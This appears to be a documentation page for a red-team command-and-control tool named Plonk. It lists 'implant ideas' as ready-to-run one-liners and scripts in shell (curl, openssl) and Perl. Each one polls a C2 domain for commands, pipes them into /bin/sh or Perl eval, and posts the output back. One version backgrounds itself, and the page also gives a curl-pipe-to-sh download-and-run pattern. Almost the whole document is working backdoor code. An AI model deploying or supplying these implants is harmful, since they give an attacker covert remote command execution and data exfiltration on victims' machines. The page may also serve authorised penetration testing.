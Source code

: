 Implant Ideas
=============
Below is a small collection of implant ideas.  They assume Plonk is listening
for queries to DOMAIN:443.  ImplantIDs are either random or hard-coded to
IMPLANTID.  There's 15 seconds between callbacks.

Shell / cURL
------------
```bash
ID="$RANDOM"; P="DOMAIN"; while :; do curl -s "https://$P/t/$ID" | /bin/sh 2>&1 | curl --data-binary @- -s "https://$P/o/$ID"; sleep 15; done
```

This is particularly noisy with `plonk -verbose`.

Shell / openssl
---------------
```bash
ID="$RANDOM" while :; do
        printf "GET /t/$ID HTTP/1.0\r\n\r\n" |
                openssl s_client -quiet -connect DOMAIN:443 2>/dev/null |
                tr -d '\r' | egrep -v '^$' | tail -n +5 |
                while read tline; do
                        O="$(echo "$tline" | (sh 2>&1))"
                        echo "POST /o/$ID HTTP/1.0\r\nContent-length: ${#O}\r\n\r\n$O" |
                                (openssl s_client -connect DOMAIN:443 >/dev/null 2>&1)
                done
        sleep 15
done
```

Self-backgrounding Shell / cURL
===============================
```bash
#!/bin/sh

DOMAIN="example.com"     # C2 domain
ID="$RANDOM-$(hostname)" # Implant ID
CBINT=5                  # Callback Interval, seconds

/bin/sh >/dev/null 2>&1 <<_eof &
while :; do
        (
                curl -s 'https://$DOMAIN/t/$ID' |
                /bin/sh 2>&1 |
                curl --data-binary @- -s 'https://$DOMAIN/o/$ID'
        ) >/dev/null 2>&1 &
        sleep '$CBINT'
done
_eof
```

This is a good one to leave in `plonk.d/files` for quick and dirty
`curl${IFS}https://DOMAIN/f/x|sh`ish commands.

Perl
----
```perl
use LWP::Simple;for(;;){if(""eq($t=get("https://DOMAIN/t/IMPLANTID"))){sleep 15;next}else{LWP::UserAgent->new->request(HTTP::Request->new("POST","https://DOMAIN/o/IMPLANTID",[],Encode::encode("ascii",`$t 2>&1`)));}}
```
Or, to run Perl code and not shell input:
```perl
use LWP::Simple;for(;;){if(""eq($t=get("http://127.0.0.1:8080/t/kittens"))){sleep 4;next}else{LWP::UserAgent->new->request(HTTP::Request->new("POST","http://127.0.0.1:8080/o/kittens",[],Encode::encode("ascii",eval$t)));}}
```
